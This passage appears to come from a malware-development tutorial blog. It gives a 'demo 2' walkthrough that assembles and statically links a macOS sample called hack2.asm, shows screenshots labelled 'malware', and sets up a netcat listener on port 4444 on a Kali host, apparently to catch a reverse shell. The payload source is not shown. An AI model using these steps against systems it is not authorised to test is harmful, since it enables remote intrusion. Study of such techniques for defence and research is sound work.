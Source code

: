 ### demo 2

Let's go to see second example in action. Compile:     

```bash
nasm -f macho64 hack2.asm -o hack2.o
ld -arch x86_64 -macos_version_min 14.0 -e start -static -o hack2 hack2.o
```

![malware](/assets/images/163/2025-07-05_19-44.png){:class="img-responsive"}    

For checking correctness, you can analyse file info:     

![malware](/assets/images/163/2025-07-05_19-51.png){:class="img-responsive"}    

So, all samples successfully compiled.      

Then, prepare netcat listener in the kali host:     

```bash
nc -nlvp 4444
```
